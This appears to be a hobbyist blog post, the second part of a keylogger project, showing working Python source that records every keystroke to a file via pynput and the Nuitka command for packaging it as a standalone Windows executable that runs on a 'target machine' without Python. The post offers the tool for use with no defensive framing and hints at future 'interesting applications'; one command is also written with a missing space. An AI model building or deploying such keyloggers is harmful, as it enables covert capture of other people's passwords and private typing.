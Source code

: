 ```yaml
---
title: "Making a Keylogger (part 2)"
date: 2022-04-17
categories: Projects
---
```


This post is a sequel to [this one](https://blasterman.github.io/blastermans-base/projects/keylogger/) that I wrote prior on making a simple keylogger in Python. Earlier, I wrote that I would like to try out using a keylogger written in Powershell or something similar that utilizes a language a fresh Windows installation would be able to run without any extra binaries or libraries. However, thanks to David Bombal and [his video](https://www.youtube.com/watch?v=qaZ-IbssPDI), I’ve discovered that there is a way of merging both writing a keylogging script in Python AND allowing said script to run on a Windows machine that doesn’t have Python installed.

In the description for his video, David has a link to a pdf he made that outlines the step-by-step process he took to create an executable of a Python keylogger. It can be found at the following link:

[https://www.dropbox.com/s/tb0w3b02j3l9rid/Installing%20Nuitka.pdf?dl=0](https://www.dropbox.com/s/tb0w3b02j3l9rid/Installing%20Nuitka.pdf?dl=0)

***
The first order of business is to install Nuitka, the program that will convert my Python script to a Windows executable. Since I already have Python on my computer, I can use *pip* to install the correct version of Nuitka for the version of Python I have using `python -m pip install -U nuitka`.

![nuitka install](/blastermans-base/assets/images/projects/keylogger2/nuitka-install.png)

Great! Let's make sure it properly configured and ready to go:

![nuitka version](/blastermans-base/assets/images/projects/keylogger2/nuitka-version.png)

👍

***
Now it’s time for the code. Comparing the code that David used against the one I found in the previous post, they’re pretty much identical save for a few missing/different parameters so it’ll function the same as the one I used last time.

```
{
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
}
```

Once saved, I’ll need to run a command in Python that instructs Nuitka to convert my `.py` file to a `.exe`. The command goes like this:

`py -m nuitka--mingw64 <filename>.py --standalone --onefile`

(Make sure to agree to both prompts in the terminal)

![nuitka file creation](/blastermans-base/assets/images/projects/keylogger2/nuitka-file-creation.png)

Done!

***

Now that the script has been compiled, it’s time to give it a go by `.\myfile.exe`. I’ll give it some time and come back later to see what the script has recorded.

...

Nah. Let’s look right now and see what I’ve got:

![captured keys](/blastermans-base/assets/images/projects/keylogger2/captured-keys.png)

Heh. It works just like the last one I used! 😁

Much thanks to David for making that video and demonstrating that there is a way to run Python scripts on Windows without needing to have the library already preinstalled on the target machine. This was a good amount of fun. Besides, who knows what interesting applications this will have in the future… 😎
